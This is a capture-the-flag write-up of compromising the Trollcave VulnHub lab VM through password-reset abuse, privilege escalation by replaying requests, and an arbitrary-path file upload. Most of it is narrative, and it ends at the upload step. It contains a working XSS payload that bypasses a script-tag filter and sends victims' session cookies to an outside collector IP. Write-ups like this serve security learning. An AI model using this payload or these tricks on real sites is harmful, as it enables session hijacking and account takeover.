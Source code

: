 # TrollCave

Trollcave is a VM available from [VulnHub](https://www.vulnhub.com/entry/trollcave-12,230/) - a  "vulnerable VM, in the tradition of Vulnhub and infosec wargames in general. You start with a virtual machine which you know nothing about – no usernames, no passwords, just what you can see on the network."

As with many traditional wargaming VMs, your objective is simple: gain access to the root account and retrieve a flag to prove you did it. Although it didn't offer a great many surprises, I found it pretty enjoyable. What follows is a write-up of my experience of trying to exploit this VM. It's not exhaustive documentation - from my understanding, there are more than a couple ways to go about exploiting this VM.

## Getting Started

After importing and setting up the VM on a host-only network and confirming that it had obtained an IP address properly, I was ready to begin poking at it. Knowing nothing about the system or what I was in for, I started with a simple netdiscover to find it on the local network, followed by a quick NMap scan to see which ports are open.

The results were pretty simple: two services accessible to the outside world on ports 22 and 80. After examining the OpenSSH running on port 22 and concluding that I wouldn't find an easy way in there, I proceeded to the webserver. It's a fairly simple community blogging platform running Rails, complete with the kind of humour we've come to expect from CTF challenges ("God himself cannot hack this website. - dragon, site admin"). There's a lot going on here, but very little is accessible without an account - which is problematic, since registration seems to be closed. The first step, then, is to get our hands on one.

## Escalating from Guest User

This challenge relies heavily on its hints, especially in the web app exploitation phase. Pretty much every stage includes some kind of hint in the form of a blog post. Some of them were red herrings (unless I missed something), but I'll cover that later. The interesting tidbit that leads you to your first win is a blog post about password resets by "coderguy", the site developer. He doesn't tell you exactly where to look for the password reset functionality - and there's no links to it anywhere. What he does say, however, is that there is a `password_resets` resource in use.

A little bit of intuition or an understanding of the way Ruby on Rails resources are set up is required here. The resource he's referring to is at `/password_resets/new`. Here we'll find a lovely unauthenticated form that lets us reset the password of any regular user - moderators and admins are out of our grasp, but this was enough for me to reset the password of 'xer', one of the regular members on the site.

## Escalating from Regular Member

While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>`

All I needed on the backend was a simple little Python script to collect the cookies being sent to my IP address. My assumption was correct - the page was being periodically accessed by cooldude89, and I shortly harvested his cookie and used it to log in as him. Now as moderator, I was able to set my sights on a higher prized.

## Escalating from Moderator

Above the role of moderator, there were two roles I didn't yet have access to: admin and superadmin. Once again, the blogs provided a valuable hint. This time, it came in the form of a blog post visible only to moderators that documents a "promote" functionality. Basically, any moderator can "promote" any regular member into a moderator. This is handy for escalating xer into a mod so I don't have to modify a cookie every time I want to log in, but it doesn't help me get to admin... or does it?

When you promote someone to moderator, a POST request is made to a URI that looks something like `/users/12/mod`. After you've promoted them, the "mod" button goes away. This stops you from promoting someone who has already been promoted - but what if you just replay the POST request? By making a request to promote someone who is already a moderator, it is possible to promote them into an admin. The only catch is that you can't do it to yourself - so I promoted xer into a mod, then an admin.

## Escalating from Admin

Only one hurdle remains: the superadmin account. There is only one superadmin: King. As before, Trollcave has a hint for us. I had suspected that the file upload functionality - which is disabled - would eventually be how I got code execution. This was all but confirmed by an admin-only post which indicated that it was disabled due to "security concerns", and that only the superadmin could enable it. Another admin-only blog post informed us that King has quit to "find himself", and that dragon has taken his account - so we need to escalate laterally to his account. Whoever has King has access to the file upload functionality, which is the way in.

So, we need to get from one admin account to another. Luckily, the client-side validation on the "promote" functionality comes to the rescue again. There is an "unmod" button which removes admin or moderator status, and can be abused in a similar way to the "mod" button. Using this, I was able to demote dragon down to a regular user, then reset his password. I could have promoted him back up to admin, but it wasn't necessary in the end - his "access" to the King account comes in the form of a message in his inbox containing King's password.

Armed with the password, I was able to log in to King.

## Getting Shell Access

Obviously, the first thing I did as King was to re-enable the file upload functionality. The second was to look at the blogs for any new hints. Unsurprisingly, I found one:

`hey man, if i'm going to be doing much more work on the site i'm really going to need sudo access. also i don't know how good an idea it is for me to be using the rails user interactively, maybe we oughta separate that

i'm dreaming of coderguy in /etc/sudoers...`

This could be useful in the future, but first we need to see just what we can do with the file upload function. As it turns out, it's pretty trivial to exploit - you can specify any path accessible to the web application, and your file will be uploaded there. So if you enter `/var/www/public/test.txt`, a file will be written there. You don't even need the usual directory traversal tricks. Trying to write a file to somewhere you don't have access to simply results in a generic rails 500 error.
